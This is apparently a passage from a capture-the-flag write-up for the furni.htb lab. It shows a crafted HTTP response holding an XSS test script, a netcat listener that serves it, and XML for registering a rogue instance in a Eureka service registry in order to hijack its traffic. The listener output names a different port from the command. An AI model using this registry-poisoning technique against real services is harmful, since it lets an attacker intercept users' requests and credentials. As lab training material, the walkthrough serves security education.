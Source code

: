 ```html
HTML/1.1 200 OK
Content-type: text/html
Content-length: 33

<script>alert("TEST")</script>
```

and let's start a listener with our `index.html` file in the `STDIN` stream.

```bash
nc -lvnp 8080 < index.html
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
```

And let's craft a request using the data from [USER MANAGEMENT SERVICE APP](http://furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE)
```xml
<application>
  <name>USER-MANAGEMENT-SERVICE</name>
  <instance>
    <instanceId>localhost:USER-MANAGEMENT-SERVICE:8081</instanceId>
    <hostName>localhost</hostName>
    <app>USER-MANAGEMENT-SERVICE</app>
    <ipAddr>10.129.234.98</ipAddr>
    <status>UP</status>
    <overriddenstatus>UNKNOWN</overriddenstatus>
    <port enabled="true">8081</port>
    <securePort enabled="false">443</securePort>
    <countryId>1</countryId>
    <dataCenterInfo class="com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo">
      <name>MyOwn</name>
    </dataCenterInfo>
    <leaseInfo>
      <renewalIntervalInSecs>30</renewalIntervalInSecs>
      <durationInSecs>90</durationInSecs>
      <registrationTimestamp>1745723382406</registrationTimestamp>
      <lastRenewalTimestamp>1745745454958</lastRenewalTimestamp>
      <evictionTimestamp>0</evictionTimestamp>
      <serviceUpTimestamp>1745723382406</serviceUpTimestamp>
    </leaseInfo>
    <metadata>
      <management.port>8081</management.port>
    </metadata>
    <homePageUrl>http://localhost:8081/</homePageUrl>
    <statusPageUrl>http://localhost:8081/actuator/info</statusPageUrl>
    <healthCheckUrl>http://localhost:8081/actuator/health</healthCheckUrl>
    <vipAddress>USER-MANAGEMENT-SERVICE</vipAddress>
    <secureVipAddress>USER-MANAGEMENT-SERVICE</secureVipAddress>
    <isCoordinatingDiscoveryServer>false</isCoordinatingDiscoveryServer>
    <lastUpdatedTimestamp>1745723382406</lastUpdatedTimestamp>
    <lastDirtyTimestamp>1745723381369</lastDirtyTimestamp>
    <actionType>ADDED</actionType>
  </instance>
</application>
```

